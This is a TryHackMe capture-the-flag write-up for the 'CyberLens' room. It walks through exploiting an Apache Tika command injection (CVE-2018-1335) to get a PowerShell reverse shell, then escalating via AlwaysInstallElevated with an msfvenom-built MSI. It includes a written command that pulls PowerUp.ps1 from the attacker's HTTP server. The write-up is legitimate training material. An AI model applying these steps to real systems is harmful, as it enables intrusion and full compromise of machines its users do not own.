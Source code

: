 # CyberLens - TryHackMe 

---

This is a writeup for the easy CTF "CyberLens" on TryHackMe. If you prefer video, I also have [a video walkthrough of this room](https://youtu.be/5tyKwulXAiw) on YouTube! This room is located at https://tryhackme.com/r/room/cyberlensp6 and is a free room. I am documenting the process I used to find all information in this writeup **WITHOUT** including any flags, in the spirit of the game. However, following this process exactly should result in a full compromise of the target system.

Finally, this room is easily solved using Metasploit, and this is far simpler and likely the best way to solve. However, as this is intended to be an OSCP-like lab, I will be presenting this writeup without the use of Metasploit.

---

## Recon, Scanning, and Enumeration

My first step was to export the box's IP address to a variable that I could use easily for the rest of the engagement. Next I pinged the box to ensure that it was alive and ready for enumeration:

![](./screenshots/ping.png)

Next I ran a quick `nmap` scan to see which ports were responding on the host: 

![](./screenshots/nmapquick.png)

After that I wanted to further enumerate the service versions and run some basic `nmap` scripts against these ports:

![](./screenshots/nmapdetails.png)

There is another important port open on this machine, but we will discover that through further enumeration later, so at this point we will not need to run a full ports scan.

We see that we have an Apache HTTP server running on port 80, as well as RPC, SMB, and RDP, services that are commonly seen on Windows servers. The most actionable of these is HTTP, so we'll pivot to enumerating the webpage next.

The web root hosts a "Welcome to CyberLens" homepage, with an interesting link to the "CyberLens Image Extractor:"

![](./screenshots/webroot.png)

This appears to be a file upload portal that will evaluate the metadata of the uploaded file:

![](./screenshots/extractor.png)

If we upload an arbitrary file and intercept the web request with Burp Suite, we can see that this upload functionality is making an OPTIONS request to cyberlens.thm (our hostname) at port 61777, and trying to make a PUT request for the file we are uploading:

![](./screenshots/options.png)

We can confirm that there is indeed a service running on port 61777, and interestingly it is running Apache Tika 1.17:

![](./screenshots/nmap61777.png)

## Initial Access

A quick Google search shows that there is a command injection vulnerability in Apache Tika. When your first result on an exploit search is from Rapid7, there's a good chance that there's a Metasploit module for the exploit you are researching, and that is the case for us. We won't use it for this writeup, but if you are only interested in the quick points, this exploit is very point-and-click. 

Note also that there is [an article from Rhino Security Labs](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/), written by the researcher, David Yesland, and discussing in depth the discovery and mechanics of the vulnerability. This is worth a read.

Finally, we can see that exploit code has been posted to Github, which is an OSCP-friendly route, if you're trying to practice saving your Metasploit usage:

![](./screenshots/googletika.png)

I ended up using the exploit from [the Rhino Security Labs github](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335), written by David Yesland and adapted to python3 by Tyler Ramsbey (the creator of this lab). I had a couple of minor issues with the current version of the script, so I have [a forked version](https://github.com/bradyjmcl/Rhino-Sec-CVEs/blob/bradyjmcl-patch-1/CVE-2018-1335/CVE-2018-1335.py) that I will use for this demonstration.

After reviewing the script, we can see that it takes three arguments - the IP address, the Tika port, and the command that we want to run. Since our command will be multiple arguments, we will need to wrap it in quotes. I will be using the "PowerShell #3 (Base64)" payload from revshells.com:

![](./screenshots/exploit.png)

## Privilege Escalation

Now that we have access to a user account, it's time to escalate our privileges to system-level. A fan-favorite for enumerating privilege escalation vectors is WinPEAS, but since this wasn't running properly in my PowerShell reverse shell, I used PowerUp.ps1, which we can upload with a method of our choice (I used `powershell iwr http://<my IP>/powerup.ps1 -Outfile C:\users\public\powerup.ps1` to download from a python3 HTTP server, hosted using `python3 -m http.server 80`), and run on the host. We have to first load the PowerShell module, then run the Invoke-AllChecks function:

![](./screenshots/powerup.png)

Here, we can see that the AlwaysInstallElevated registry keys are enabled. We could check these manually, if we needed confirmation that the script is working properly:

![](./screenshots/regquery.png)

With these keys enabled, all users are able to run Windows Installer Files (.msi) with elevated privileges. We can use `msfvenom` to create a malicious installer file, which we can use to run arbitrary commands:

![](./screenshots/msfvenom.png)

Since I already know that this PowerShell reverse shell payload works, I'm just going to re-use it to get an elevated reverse shell. You could also use the windows/exec commands to add users to groups or add privileges to our current user, but we can just do those with our elevated shell if we need to.

Now that we have our malicious installer file generated, it's just a matter of uploading this file and running it. We can use `msiexec` with the `/quiet` flag to specify that no user interaction is required, `/qn` to specify that there is no UI during the "installation," and `/i` to specify normal "installation." With these flags, we should be able to get a system-level shell:

![](./screenshots/rooted.png)

Thanks to TeneBrae93 for the creation of this challenge!
